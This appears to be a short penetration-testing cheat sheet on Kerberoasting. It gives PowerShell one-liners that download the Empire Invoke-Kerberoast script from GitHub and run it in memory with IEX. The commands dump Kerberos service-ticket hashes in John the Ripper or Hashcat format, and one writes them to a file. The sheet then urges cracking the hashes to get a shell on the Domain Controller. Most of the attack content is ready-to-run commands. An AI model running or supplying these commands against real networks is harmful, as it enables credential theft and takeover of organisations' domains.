



Empire Powershell script
Github:
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1Hash
in John The Ripper format
PS> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat John|Select-Object -ExpandProperty hash
Hash in
Hashcat format
PS> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash
 Output in a
file
PS> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash.txt

Now Crack it!
Now you can crack the Hash with Hashcat or John The Ripper
When you have cracked the hash,
you can use the password to obtain a shell on the
Domain Controller as seen in
the
Original
method of Tim Medin(point 4)
Bibliography:
https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/